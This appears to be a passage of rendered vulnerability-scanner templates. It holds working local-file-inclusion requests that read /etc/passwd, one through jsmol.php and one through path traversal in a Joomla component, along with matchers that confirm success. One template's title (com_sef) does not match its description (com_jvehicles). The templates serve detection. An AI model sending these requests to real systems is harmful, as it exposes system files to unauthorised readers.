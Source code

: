 - Method - GET

### URL

- {{BaseURL}}/filter/jmol/js/jsmol/php/jsmol.php?call=getRawDataFromDatabase&query=file:///etc/passwd

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# Joomla! Component com_sef - Local File Inclusion

## Description

- A local file inclusion vulnerability in the Jvehicles (com_jvehicles) component version 1.0 for Joomla! allows remote attackers to load arbitrary files via the controller parameter in index.php.
- severity - high
- tags - cve,cve2010,joomla,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_jvehicles&controller=../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0

**Type - status**

- status
  1. 200

---

# Linux Vmware Vcenter - Local File Inclusion
